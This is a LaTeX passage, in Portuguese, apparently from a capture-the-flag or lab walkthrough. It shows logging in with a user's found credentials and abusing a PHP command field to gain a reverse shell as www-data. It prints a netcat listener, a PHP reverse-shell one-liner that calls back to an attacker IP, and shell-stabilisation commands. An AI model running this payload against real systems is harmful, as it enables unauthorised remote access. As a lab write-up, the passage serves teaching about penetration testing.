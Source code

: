 \documentclass[12pt]{article} %
\begin{document}
Na tela de login, podemos tentar as credenciais encontradas do charlie e acabamos redirecionados para a tela do home.

Nesta etapa, podemos tentar criar um shell reverso, pois, pelas características da tela, aparentemente é possível fazer isso, já que a página de home expõe um campo que executa comandos PHP no servidor.

Primeiro, deixamos um listener aguardando a conexão de volta:

\begin{lstlisting}[caption={Listener netcat aguardando a conexão reversa}]
$ nc -lvnp 9001
\end{lstlisting}

Em seguida, copiamos e colamos o seguinte payload PHP na barra de comando da página, trocando o IP pelo da nossa máquina atacante:

\begin{lstlisting}[caption={Payload PHP utilizado para obter a reverse shell}]
php -r '$sock=fsockopen("192.168.0.25",9001);shell_exec("sh <&3 >&3 2>&3");'
\end{lstlisting}

Ao executar o payload, o servidor conecta de volta ao nosso listener e obtemos uma shell como o usuário \textit{www-data}.

Após estabelecer a conexão, é necessário estabilizar a shell para obter uma sessão interativa:

\begin{enumerate}
    \item Na shell recebida, gere um TTY utilizando Python:

\begin{lstlisting}[caption={Gerando um TTY interativo}]
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
\end{lstlisting}

    \item Em seguida, ajustando o terminal local:

\begin{lstlisting}[caption={Ajustando o terminal local}]
$ stty raw -echo; fg
\end{lstlisting}

    \item Configure as variáveis do terminal dentro da shell:

\begin{lstlisting}[caption={Configurando o terminal}]
$ export TERM=xterm-256color
$ stty rows 40 columns 120
\end{lstlisting}
\end{enumerate}
\end{document}
